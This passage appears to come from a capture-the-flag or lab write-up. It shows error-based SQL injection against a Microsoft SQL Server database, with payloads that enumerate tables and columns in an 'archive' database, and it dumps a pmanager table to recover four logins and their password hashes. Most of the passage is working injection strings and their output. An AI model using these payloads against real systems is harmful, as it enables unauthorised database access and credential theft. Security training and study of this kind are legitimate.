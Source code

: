 There doesn't seem to be anything interesting in master unfortunately.

Next, let's try the archive database. That also sounds a bit interesting:

We start again by finding out what tables are in the database through the information schema:

```
',convert(int,(select top 1 table_name from archive.information_schema.tables)))--
```

Again, we specify the different values we get as `not in`.

We get only one table: `pmanager`. Let's check out its columns:

',convert(int,(select top 1 column_name from archive.information_schema.columns where table_name='pmanager' and column_name not in ('id','alogin','psw'))))--

1. id
2. alogin
3. psw

Nice! Looks like we have a login and password column. Now we need to dump the information, all with the same strategies as before, but specifying the specific database and table:

```
', convert(int,(select top 1 alogin from archive..pmanager)))--
```

This is done in the same way as before, except we specify the external table with `archive..pmanager`, be sure to have the two periods.

We also continue to update the `not in` with whatever alogins we get:

```
', convert(int,(select top 1 alogin from archive..pmanager where alogin not in ('ftpadmin','webadmin','administrator','eric'))))--
```

We get the following info:

1. ftpadmin
2. webadmin
3. administrator
4. eric

Now, let's get the passwords with the same adapted commands from before:

```
', convert(int,(select top 1 psw from archive..pmanager)))--
```

Our final command with all the hashes accounted for:

```
', convert(int,(select top 1 psw from archive..pmanager where psw not in ('7de6b6f0afadd89c3ed558da43930181','5b413fe170836079622f4131fe6efa2d','3c744b99b8623362b466efb7203fd182','cb2d5be3c78be06d47b697468ad3b33b'))))--
```

We got some hashes!

|User|Hash|
|----|-----|
|ftpadmin|7de6b6f0afadd89c3ed558da43930181|
|webadmin|5b413fe170836079622f4131fe6efa2d|
|administrator|3c744b99b8623362b466efb7203fd182|
|eric|cb2d5be3c78be06d47b697468ad3b33b|
